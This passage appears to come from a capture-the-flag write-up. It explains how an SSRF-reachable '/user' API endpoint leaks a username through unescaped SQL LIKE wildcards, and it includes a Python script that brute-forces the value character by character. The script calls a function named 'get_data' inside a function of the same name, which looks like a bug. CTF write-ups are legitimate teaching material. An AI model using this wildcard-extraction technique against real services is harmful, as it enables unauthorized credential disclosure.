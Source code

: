There is only one valid endpoint - `/user`. When we call it without the query parameters, the response is `Invalid content type detected`, but when we call it with any parameter: `/api/user?foo=bar` for example, the response is `Expected HTTP status 200, Received: 400`. This status in Grinch API doc means that we sent invalid GET/POST variable(s). Let's think what parameters can accept `/user` endpoint?

- `id`
- `uuid`
- `login`
- `username`
- `password`
- two parameters

Let's try all of them. When we send two parameters:  `username` and `password`: `/api/user?username=&password=`, the response is `Expected HTTP status 200, Received: 204`. Good, we found the valid parameters. Now let's think how the server uses them  in the `/user` endpoint? I guess it filters users by them. So we can try to guess the both parameters' values, then `/user` endpoint will return status code 200 (select some user), and SSRF response will be `Invalid content type detected` again. Unfortunately  bruteforce attack can't be used here, because we will need to send the millions of requests. SQLi injection doesn't work also. But maybe the server doesn't escape wildcard characters: percentage ` %` and underscore `_` in SQL query? Let's try to send the following path: `/api/user?username=%25&password=%25`, and the response will be `Invalid content type detected`. Cool, that means, that we can use the same technics as we used in the *Evil Quiz* challenge.

Let's create the python script (it uses some functions from the script above):

```python
def get_data():
  known = ''
  known_max_len = 20

  charset = string.ascii_lowercase + string.digits + '_'
  while True:
    found_next = False
    for char in charset:
      temp_char = '\\' + char if char == '_' or char == '%' or char == '"' else char
      tmp_known = known + temp_char

      params = {
        'username': tmp_known + '%',
        'password': '%'
      }
      query = 'user/?{}'.format(urlencode(params, quote_via=quote))

      res = get_data(query)
      if res['text'] == 'Invalid content type detected':
        known += char
        found_next = True
        print(known)
        break
    if (not found_next):
      print_and_exit('Unable to find the next char')
    elif (len(known) == known_max_len):
      print_and_exit('Found the first {} chars: {}'.format(known_max_len, known))
```
